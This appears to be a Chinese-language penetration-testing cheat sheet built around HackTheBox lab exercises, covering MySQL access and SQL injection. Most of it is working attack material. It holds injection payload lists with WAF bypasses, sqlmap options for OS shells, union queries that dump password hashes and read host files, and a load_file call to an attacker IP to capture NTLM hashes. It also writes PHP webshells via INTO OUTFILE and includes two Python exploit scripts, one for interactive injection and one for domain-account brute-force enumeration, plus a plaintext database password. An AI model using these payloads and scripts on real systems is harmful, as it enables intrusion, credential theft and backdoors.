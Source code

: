 MySQL 数据库服务的默认端口

mysql 链接
```mysql
sudo mysql -h <IP> -u<> -p
show databases;
use <database name>
show tables;
select * from <table name>

mysql -e 'show databases;' -u drupaluser -p'CQHEy@9M*m23gBVj'
mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

Login MySQL
```bash
mysql -h [ip] -u[username] -p -D[database]
```

Update (Replace) creds
- template
```mysql
UPDATE tblUsers SET pwd = 'e10adc3949ba59abbe56e057f20f883e' where login = 'admin' ;
```

**SQLMAP**
```
sqlmap -r request.txt --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080

-r 指定bp抓包信息文档
--tamper=charunicodeescape 指定 tamper 脚本,使用默认的charunicodeescape绕过WAF  对所有字符进行 unicode 编码
--delay 5  每五秒一次请求 
--level 5 --risk 3  最大程度放宽
--proxy 当开启bp的时候 流量可以流过bp的拦截
--batch 使用sqlmap默认的选项
--force-ssl  扫描https网页强制开启ssl
--technique U   指定使用Union query
--privileges  列出当前用户的权限

--dbs
--dump-all 列出所有数据
--exclude-sysdbs 除了系统的数据库
--os-cmd 执行系统命令
--os-shell
```

##### SQL 注入
一定要检查细致 :    '    "    ')    ")     , 单引号前面的数据也有可能影响最后结果建议多写一点
```mysql
1' or '1'='1
'OR 1=1--
qwe' and 1=1 -- -
qwe' and 1=1; -- -
qwe' -- -
qwe' or 1=1; -- -
qwe' or 1=1 -- -
qwe' oR 1=1 -- -
qwe' || 1=1 -- -
qwe' && 1=1 -- -
qwe' union select 1,2,3,4,5,6; -- -
qwe' union select 1,2,3,4,5,6 -- -
0 or 1=1
0 or 1=2
123 union select 1,2,3,4,5;-- -
\u27     (尝试Escape Unicode Char >Cyber​​Chef<)
\u0027
\u0027\u0020\u006F\u0072\u0020\u0031\u003D\u0031\u003B\u002D\u002D\u0020\u002D  (' or 1=1;-- -)
qwe' union select 1,2,3,4,5 -- -
<username>' OR 1=1--
'OR '' = '	
<username>'--
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
```

Bypass : 
```
qwe' || 1 #  (qwe' or 1 #)
```

### [重要]
-  **查看用户权限**           ' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges #        
-  **获取内部 hash 值**   ' union select 1,user,password,4,5,6 from mysql.user #    
	使用 `hashcat -m 300`  来破解
-  **配合 responder 拿到 NetNTLMv2 Hash** :    `' union select 1,load_file('\\\\10.10.14.11\\test'),3 #`     
-  **读取主机中的文件** :    `' union select 1,load_file('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3 #`       

**脚本 （escape unicode char ）**  
```python
# 2024/03/06 基于 escape unicode 的sql注入 需要输入完整的SQL注入语句
# Like -> qwe' union all select 1,2,3,4,'Test'-- -
# Obsidian Hackthebox 0x30 is the example
import requests
import json
import cmd
  
url = "http://10.129.103.54/api/getColleagues" # ChangeThis

def encode(query):
    payload = ""
    for char in query:
        payload += r"\u{:04x}".format(ord(char))
    return payload

class exploit(cmd.Cmd):
    prompt = "PleaseSub > "
    def default(self, line):
        payload = encode(line)
        data = '{"name":"'+ payload +'"}'
        header = {"Content-Type":"application/json;charset=utf-8"}
        proxy = {"http":"127.0.0.1:8080"} # bp代理需要设置 
        r = requests.post(url, headers=header, proxies=proxy, data=data) # bp代理需要设置 
        print(r.text)
  
exploit().cmdloop()
```



**wfuzz 验证特殊符号过滤情况**
```bash
└─$ wfuzz -u http://10.129.103.54/api/getColleagues -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -t 1 -s 3

并发线程数为1
超时时间为3
```

**phpmyadmin 有漏洞的版本： version 4.9.0 - 4.9.1**  : [CMS 漏洞，攻击向量](../CMS%20漏洞，攻击向量.md)

**SQLi 写入 WebShell** :
```sql
select '<?php system($_GET[0]) ?>' into OUTFILE '/var/www/html/shell.php' ;
' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'C:/inetpub/wwwroot/xekoner.php' #
(注意要用 / 而不是 \)
```

# 域渗透

##### 手动 sql 注入转储域用户
https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
编码绕过方式根据实际情况确定      
**例**  > [0x30 Multimaster (SQL 注入枚举域内信息)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x30%20Multimaster%20(SQL 注入枚举域内信息).md) <
```
SELECT DEFAULT_DOMAIN() 获取域名
test' UNION ALL SELECT 51,DEFAULT_DOMAIN(),51,51,51-- SaIs
```

```
获取Domain Admins域的RID, 因为字符串回显原因，使用HEX返回
test' UNION ALL SELECT 58,58,58,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator')),58-- SaIs
```
HEX : `0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`
所以可以拆分为 `0x0105000000000005150000001c00d1bcd181f1492bdfc236 f4 01 00 00`
反转字节后使用 python 转换格式：
```python
>>> 0x01f4
500
```
500 就是 Administrator 的 SID

**暴力枚举可能存在的用户 SID**
```python
#!/usr/bin/env python3       

import binascii
import requests
import struct
import sys
import time

payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""                                                         

def unicode_escape(s):                              
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])


def issue_query(sql):                               
    while True:                                     
        resp = requests.post(
            "http://10.129.103.54/api/getColleagues", 
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )                                           
        if resp.status_code != 403:
            break                                   
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)                              
    return resp.json()[0]["email"]


print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")
for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)
```
